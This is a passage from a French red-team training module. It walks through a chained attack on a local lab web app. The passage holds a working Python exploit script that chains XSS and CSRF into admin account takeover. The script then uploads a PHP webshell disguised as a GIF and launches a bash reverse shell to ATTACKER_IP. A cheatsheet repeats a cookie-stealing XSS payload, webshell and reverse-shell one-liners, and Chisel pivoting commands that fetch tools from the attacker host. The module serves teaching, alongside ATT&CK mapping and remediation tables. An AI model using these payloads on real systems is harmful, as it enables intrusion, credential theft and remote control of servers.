p1.type = 'hidden'; p1.name = 'password'; p1.value = 'Hacked2026!';
var p2 = document.createElement('input');
p2.type = 'hidden'; p2.name = 'confirm'; p2.value = 'Hacked2026!';
f.appendChild(p1); f.appendChild(p2);
document.body.appendChild(f); f.submit();
</script>"""
r = session.get(f"{BASE}/search", params={"q": xss_csrf})
print("  [+] Payload XSS+CSRF injecte")

print("[*] Verification de l'ATO...")
time.sleep(1)
r = session.post(f"{BASE}/login", data={
    "email": "admin@ecovault.com",
    "password": "Hacked2026!"
}, allow_redirects=False)
if r.status_code == 302 or "dashboard" in r.text:
    print("  [!!!] ACCOUNT TAKEOVER REUSSI !")
else:
    print(f"  [-] ATO echoue (status: {r.status_code})")

# PHASE 4 : Upload Webshell (T1505.003)
print("\n[4] UPLOAD WEBSHELL (T1505.003)")
print("-" * 50)

session.post(f"{BASE}/login", data={
    "email": "admin@ecovault.com",
    "password": "Hacked2026!"
})

webshell_code = b"GIF89a\n<?php\n$pass = \"wshell2026\";\nif ($_POST['auth'] === $pass) { echo \"<pre>\" . shell_exec($_POST['cmd']) . \"</pre>\"; } else { echo \"Auth required.\"; }\n?>"
with open("/tmp/ws.py", "wb") as f:
    f.write(webshell_code)

print("[*] Upload du webshell...")
with open("/tmp/ws.py", "rb") as f:
    files = {"file": ("ws.php", f, "image/gif")}
    r = session.post(f"{BASE}/admin/upload", files=files, data={"submit": "Upload"})

print("[*] Test du webshell...")
r = requests.post(f"{BASE}/uploads/ws.php",
                  data={"auth": "wshell2026", "cmd": "id"})
if "www-data" in r.text or "uid=" in r.text:
    print(f"  [+] Webshell fonctionnel !")
    print(f"  [+] Resultat: {r.text.strip()}")
else:
    print(f"  [-] Webshell non fonctionnel: {r.text[:200]}")

# PHASE 5 : Reverse Shell (T1059.003)
print("\n[5] REVERSE SHELL (T1059.003)")
print("-" * 50)
print(f"[*] Execution du reverse shell vers {ATTACKER_IP}:{LISTENER_PORT}...")
rs_payload = f"bash -c 'bash -i >& /dev/tcp/{ATTACKER_IP}/{LISTENER_PORT} 0>&1'"
try:
    requests.post(f"{BASE}/uploads/ws.php",
                  data={"auth": "wshell2026", "cmd": rs_payload}, timeout=2)
except requests.exceptions.Timeout:
    print("  [+] Timeout (normal - le shell est transfere)")

# PHASE 6 : Pivoting (T1021.001)
print("\n[6] PIVOTING VERS RESEAU INTERNE (T1021.001)")
print("-" * 50)
print(f"[*] Configuration du tunnel Chisel...")
print(f"  Serveur: ./chisel server -p {CHISEL_PORT} --reverse --socks5")
print(f"  Client: /tmp/chisel client http://{ATTACKER_IP}:{CHISEL_PORT} R:socks")
print(f"[*] Scan interne via proxychains:")
print(f"  proxychains4 nmap -sT -Pn -p21,22,25,80,8081 10.0.0.10")

print("\n" + "=" * 70)
print("PARCOURS TERMINE")
print("=" * 70)
```

### 9.3 Tableau ATT&CK à remplir

```markdown
# Fiche de synthese — Module 4

## Equipe : [Nom]
## Date : JJ/MM/2026

| Ordre | Technique | Code | Statut | Commentaire |
|-------|-----------|------|--------|-------------|
| 1 | Gather Victim Host Information | T1592 | ✅ / ❌ | |
| 2 | Drive-by Compromise (XSS) | T1189 | ✅ / ❌ | |
| 3 | Steal Web Session Cookie | T1539 | ✅ / ❌ | |
| 4 | Exploit Public-Facing Application (CSRF) | T1190 | ✅ / ❌ | |
| 5 | Server Software Component (Web Shell) | T1505.003 | ✅ / ❌ | |
| 6 | Command and Scripting Interpreter | T1059.003 | ✅ / ❌ | |
| 7 | Remote Services (Pivoting) | T1021.001 | ✅ / ❌ | |
| 8 | Exfiltration Over C2 Channel | T1041 | ✅ / ❌ | |

## Resume des acces

| Etape | Detail | Flag / Preuve |
|-------|--------|---------------|
| Cookie vole | sessionid | `[cookie]` |
| Nouveau mot de passe admin | admin:Hacked2026! | `[confirme]` |
| Webshell URL | http://localhost:8080/uploads/ws.php | `[preuve]` |
| Reverse shell IP:Port | ATTACKANT_IP:4444 | `[capture ecran]` |
| Serveur interne accessible | 10.0.0.10 | `[scan nmap]` |

## Remédiation recommandee (par technique)

| Technique | Correctif | Priorite |
|-----------|-----------|----------|
| T1189 (XSS) | CSP, validation entrees | Haute |
| T1539 (Cookie theft) | HttpOnly + Secure + SameSite | Haute |
| T1190 (CSRF) | Token anti-CSRF | Haute |
| T1505.003 (Webshell) | Validation upload + antivirus | Haute |
| T1059.003 (Reverse shell) | EDR, restriction exec | Haute |
| T1021.001 (Pivoting) | Segmentation reseau, Jump host | Moyenne |
```

### 9.4 Heat map à générer

**Fichier JSON pour ATT&CK Navigator :**

```json
{
    "name": "Module 4 — Exploitation & Pivoting",
    "version": "4.1",
    "domain": "mitre-enterprise",
    "description": "Heat map du parcours complet",
    "techniques": [
        {
            "techniqueID": "T1592",
            "color": "#98df8a",
            "score": 90,
            "comment": "Reconnaissance passive + active"
        },
        {
            "techniqueID": "T1189",
            "color": "#d62728",
            "score": 95,
            "comment": "XSS reflechie sur /search?q="
        },
        {
            "techniqueID": "T1539",
            "color": "#d62728",
            "score": 90,
            "comment": "Vol du cookie de session admin"
        },
        {
            "techniqueID": "T1190",
            "color": "#d62728",
            "score": 85,
            "comment": "CSRF vers /admin/change-password -> ATO"
        },
        {
            "techniqueID": "T1505",
            "sub-techniques": [
                {
                    "techniqueID": "T1505.003",
                    "color": "#d62728",
                    "score": 95,
                    "comment": "Webshell PHP via magic bytes"
                }
            ],
            "color": "#d62728",
            "score": 95,
            "comment": "Webshell"
        },
        {
            "techniqueID": "T1059",
            "sub-techniques": [
                {
                    "techniqueID": "T1059.003",
                    "color": "#ff7f0e",
                    "score": 80,
                    "comment": "Reverse shell bash stabilise"
                }
            ],
            "color": "#ff7f0e",
            "score": 80,
            "comment": "Reverse shell"
        },
        {
            "techniqueID": "T1021",
            "sub-techniques": [
                {
                    "techniqueID": "T1021.001",
                    "color": "#ff7f0e",
                    "score": 75,
                    "comment": "Pivoting Chisel + Proxychains vers 10.0.0.10"
                }
            ],
            "color": "#ff7f0e",
            "score": 75,
            "comment": "Tunnel SOCKS vers reseau interne"
        },
        {
            "techniqueID": "T1041",
            "color": "#98df8a",
            "score": 65,
            "comment": "Exfiltration des donnees du serveur interne"
        }
    ],
    "gradient": {
        "colors": ["#98df8a", "#ff7f0e", "#d62728"],
        "minValue": 0,
        "maxValue": 100
    },
    "legendItems": [
        {"label": "Faible couverture (reconnaissance)", "color": "#98df8a"},
        {"label": "Partiellement reussi", "color": "#ff7f0e"},
        {"label": "Entierement reussi (critique)", "color": "#d62728"}
    ],
    "filters": {
        "stages": ["act"],
        "platforms": ["linux"]
    }
}
```

**Import dans ATT&CK Navigator :**

```bash
# 1. Ouvrir http://localhost:4200 (ATT&CK Navigator)
# 2. Cliquer sur "Open Existing Layer" -> "Upload from file"
# 3. Selectionner le fichier heatmap_m4.json
# 4. Visualiser la heat map
```

---

## 10. Annexes

### 10.1 Cheatsheet — Commandes essentielles

```bash
# === RECONNAISSANCE ===
nmap -sV -p- localhost                                # Scan complet
gobuster dir -u http://localhost:8080 -w wordlist.txt  # Endpoints
whatweb http://localhost:8080                          # Technologies
curl -sI http://localhost:8080 | grep -i server        # Server header

# === XSS ===
curl -s "http://localhost:8080/search?q=<script>fetch('http://IP:9999/?c='+document.cookie)</script>"
python3 -m http.server 9999                           # Listener cookie

# === CSRF ===
# Injecter formulaire auto-submit via XSS
# Sur /search?q=
# POST vers /admin/change-password

# === WEBSHELL ===
echo 'GIF89a<?php system($_GET["cmd"]); ?>' > shell.php
curl -F "file=@shell.php;type=image/gif" http://localhost:8080/admin/upload -F "submit=Upload"
curl http://localhost:8080/uploads/shell.php?cmd=id

# === REVERSE SHELL ===
rlwrap nc -lvnp 4444                                   # Listener
bash -i >& /dev/tcp/IP/4444 0>&1                      # Payload bash
python3 -c 'import pty; pty.spawn("/bin/bash")'        # Stabilisation

# === PIVOTING ===
# Attaquant :
./chisel server -p 8000 --reverse --socks5
# Cible :
wget http://IP:9999/chisel && chmod +x chisel
./chisel client http://IP:8000 R:socks
# Attaquant (via proxychains) :
proxychains4 nmap -sT -Pn 10.0.0.10
proxychains4 curl http://10.0.0.10:8081
```

### 10.2 Ressources

| Ressource | URL |
|-----------|-----|
| MITRE ATT&CK — T1592 | https://attack.mitre.org/techniques/T1592/ |
| MITRE ATT&CK — T1189 | https://attack.mitre.org/techniques/T1189/ |
| MITRE ATT&CK — T1539 | https://attack.mitre.org/techniques/T1539/ |
| MITRE ATT&CK — T1505 | https://attack.mitre.org/techniques/T1505/ |
| MITRE ATT&CK — T1059 | https://attack.mitre.org/techniques/T1059/ |
| MITRE ATT&CK — T1021 | https://attack.mitre.org/techniques/T1021/ |
| MITRE ATT&CK — T1041 | https://attack.mitre.org/techniques/T1041/ |
| PortSwigger — XSS | https://portswigger.net/web-security/cross-site-scripting |
| PortSwigger — CSRF | https://portswigger.net/web-security/csrf |
| BeEF Framework | https://github.com/beefproject/beef |
| weevely3 | https://github.com/epinna/weevely3 |
| Chisel | https://github.com/jpillora/chisel |
| Proxychains-ng | https://github.com/rofl0r/proxychains-ng |
| p0wny-shell | https://github.com/flozz/p0wny-shell |
| Turbol Intruder (Burp) | https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988 |
| ATT&CK Navigator | https://github.com/mitre-attack/attack-navigator |
| Directive NIS2 | https://eur-lex.europa.eu/eli/dir/2022/2555 |
| ANSSI — Guide d'hygiène | https://www.ssi.gouv.fr/guide/guide-dhygiene-informatique/ |

---

*Fin du Module 4 — Exploitation Chaînée & Pivoting (Web → Interne)*
*Formation Red Team — Master 2 Sécurité et Défense des Systèmes d'Information — SDV 2026*
